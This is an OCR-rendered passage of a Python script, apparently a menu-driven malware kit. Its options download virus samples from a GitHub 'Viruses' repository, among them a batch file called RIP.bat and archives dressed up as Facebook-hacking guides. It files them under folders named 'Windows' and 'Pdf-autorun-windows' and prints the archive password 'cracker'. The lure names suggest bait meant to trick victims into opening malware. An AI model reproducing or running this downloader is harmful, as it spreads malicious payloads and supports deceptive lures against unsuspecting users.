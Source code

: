         elif menu3 == 10:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/RIP.bat?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'RIP.bat?raw=true' Windows/RIP.bat")
            print(fun)#####done
        elif menu3 == 11:
            print("\n")
            menu()
        else:
            print(""+R+"[!] wrong number")
    except Exception:
        print(""+R+"[!] This is not number")
        
#######################Done  PC

####################start PDF
def Vpdfautorunpc():
    print(""+O+"["+R+"1"+O+"] How to hack facebook (ext: rar)")
    print(""+O+"["+R+"2"+O+"] Hack facebook        (ext: rar)")
    print(""+O+"["+R+"3"+O+"] Back")
    
    try:
        menu4 = input("Input Number >"+R+" ")
        if menu4 == 1:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/howtohackfb.rar?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'howtohackfb.rar?raw=true' Pdf-autorun-windows/How-to-hack-facebook.rar")
            print(fun)#####done
            print("password: cracker\n")
        elif menu4 == 2:
            print(""+G+"")
            chunk_size = 1024
            url = 'https://github.com/Ractomes/Viruses/blob/master/samples/hackfacebook.rar?raw=true'
            r = requests.get(url, stream = True)
            size = int(r.headers['content-length'])
            filename = url.split('/')[-1]
            with open(filename, 'wb') as f:
                for data in tqdm(iterable = r.iter_content(chunk_size = chunk_size),total = size/chunk_size, unit = ' KB'):
                    f.write(data)
            os.system("mv 'hackfacebook.rar?raw=true' Pdf-autorun-windows/Hack-facebook.rar")
            print(fun)#####done
            print("password: cracker\n")
        elif menu4 == 3:
            print("\n")
            menu()
        else:
            print(""+R+"[!] Wrong number")
    except NameError: